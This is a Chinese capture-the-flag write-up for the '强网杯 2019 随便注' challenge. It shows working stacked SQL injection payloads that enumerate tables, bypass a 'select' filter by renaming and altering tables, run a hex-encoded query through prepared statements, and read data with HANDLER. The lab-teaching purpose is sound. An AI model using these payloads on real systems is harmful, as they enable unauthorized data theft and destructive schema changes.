

# [强网杯 2019]随便注

## 知识点

`堆叠注入`

## 解题


注入发现为`单引号注入`


查看列



发现为`2`列

联合注入查一下信息


发现过滤了`select`

堆叠注入试试,就是通过`;`号注入多条`SQL`语句。

```mysql
1';show databases%23
1';show tables%23
# 表名为数字时，要用反引号包起来查询。
1';show columns from `1919810931114514`%23
1';show columns from words%23
```

查出来了表`1919810931114514`和`words`，

`1919810931114514`表有`flag`列

`words`表有`id`列和`data`列

但是`select`被过滤了，需要绕过

### 方法一 更改查询表名为目标表名及更改对应字段

1. 通过` rename `先把`words` 表改名为其他的表名。
2. 把`1919810931114514`表的名字改为`words`
3. 给`words`表添加新的列名`id`
4. 将`flag`字段名改为与`words`中相同的列名`data`

然后就可以通过查询`id`得方法查出来`flag`字段的内容了

```mysql
1';rename table words to word1;rename table `1919810931114514` to words;alter table words add id int not NULL auto_increment primary key;alter table words change flag data varchar(100);%23
```

提交`payload`后，再查询`id`为`1`的数据，就可以查到`flag`


### 方法二 预处理语句配合十六进制编码

因为`select`被过滤了

```
所以先将select * from `1919810931114514`进行16进制编码
```

再构造预处理语句

```mysql
;SeT@a=0x73656c656374202a2066726f6d20603139313938313039333131313435313460;prepare execsql from @a;execute execsql;#
# 因上述方法更改了flag表，所以真实的flag在words表中，所以重新编码
0';Set@a=0x73656c656374202a2066726f6d2060776f72647360;prepare execsql from @a;execute execsql;%23
```

### 方法三 非预期

```mysql
1'; handler `1919810931114514` open as `a`; handler `a` read next;#

666c6167
```
